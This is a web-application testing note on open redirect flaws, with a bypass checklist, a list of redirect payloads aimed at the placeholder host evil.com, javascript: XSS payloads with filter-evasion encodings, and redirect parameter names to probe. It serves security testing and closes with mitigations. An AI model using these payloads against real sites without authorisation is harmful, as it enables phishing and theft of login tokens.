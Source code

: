 ```yaml
---
title: "Open Redirect"
layout: notes
tags:
  - webapp
  - methodology
  - open-redirect
  - FI_parameters
  - Co_phishing
  - Co_sensitive-info-disclosure
  - FI_http-headers
  - Co_arbitrary-script-execution
---
```

## Summary

Where sites need to direct a user to a different page or to another site, they will use some sort of a redirect. In application this is incredibly useful when a user might need to be directed through a chain of events then sent back to their original destination. Especially in cases where a service handles a login function then returns the user with an authentication token of some kind like in Oauth. In these cases it might be possible to abuse the redirect and send the intended token to an attacker controlled webpage. Redirects might have some filters but can be easy to bypass as their impact is often overlooked.

## Methodology

When looking for Open Redirects ask/try the following:
- [ ] **Do login/register/logout pages redirect?**
- [ ] **Is there any redirect found within the source code?**
	- [ ] **Is the location header missing?** or **Are you changing the DOM?**
		- [ ] try to pop an XSS - JavaScript Injection from the open redirect
- [ ] try changing the domain
	- [ ] try adding a whitelisted domain/keyword
- [ ] try adding another domain after with `redirect.com/a//evil.com`
- [ ] try using `//` to bypass `http` filter
	- [ ] try using `https:` to bypass `//`
	- [ ] try using `\\` to bypass `//`
	- [ ] try using `\/\/` to bypass `//`
- [ ] try using `%E3%80%82` to bypass `.`
- [ ] try using `%00` in domain `/?redir=//evil%00.com`
- [ ] try using `@` or `%40` to redirect
	- [ ] `/?redir=target.com@evil.com`
- [ ] try making a directory inside of your domain matching the domain in question
- [ ] try using `#` after your site to ignore theirs
- [ ] try using `%23` for simple filters `/?redir=target.com%23evil.com`
- [ ] try using parsing `http://ⓔⓥⓘⓛ.ⓒⓞⓜ`
- [ ] if it only lets you control a path bypass with `%0d` or `%0a` `/?redir=/%0d/evil.com`
- [ ] IF NO RESULTS TRY A BASIC SUBDOMAIN OF THE CORRECT DOMAIN
	- [ ] if even this isn't allowed there is a good chance it's properly configured

## Capabilities

Execution of arbitrary scripts  
Phishing attacks  
Disclosure of sensitive information  

## Found In

HTTP Headers  
Parameters  
	Sign in and register pages  
	Signout application route/API endpoint  
	Password resets  
	Profile account page  
	Email verification links  
	Error pages  
	Multistep actions in the application  


## Tools/Examples

[https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

bypasses to determine filter
```
\/evil.com
\/\/evil.com
\\evil.com
//evil.com
//target.com@evil.com
/\/evil.com
/+/evil.com
https://evil.com%3F.target.com/
https://evil.com%2523.target.com/
https://evil.com?c=.target.com/ (use # \ also)
//%2F/evil.com
////evil.com
///evil.com
https://target.computer/
https://target.com.evil.com
/%0D/evil.com (Also try %09 %00 %0a %07 %2F)
https://evil.com%23example.com (Also try %00 %0a %0d %09 °)
/%5Cevil.com
//evil%E3%80%82com
.evil.com
http:evil.com
https:evil.com
```

DOM based XSS through open redirect 
```
# Simple bypasses
javascript:alert(1)
JavaScript:alert(1)
JAVASCRIPT:alert(1)

# Bypass weak regex patterns (try repositioning the URL-encoded special characters)
ja%20vascri%20pt:alert(1)
jav%0Aascri%0Apt:alert(1)
jav%0Dascri%0Dpt:alert(1)
jav%09ascri%09pt:alert(1)

# More advanced weak regex pattern bypasses
%19javascript:alert(1)
javascript://%0Aalert(1)
javascript://%0Dalert(1)
javascript://https://example.com%0Aalert(1)
```

dorkable endpoints on target (test upper and lower case)
```
return
return_url
rUrl
cancelUrl
url
redirect
follow
goto
returnTo
returnUrl
r_url
history
goback
redirectTo
redirectUrl
redirUr
```

#### Mitigation

Avoid using redirects when not necessary  
Validate the redirect URL by using a whitelist  
Do not allow user input for the redirect  
Show warnings when redirected to different domains  
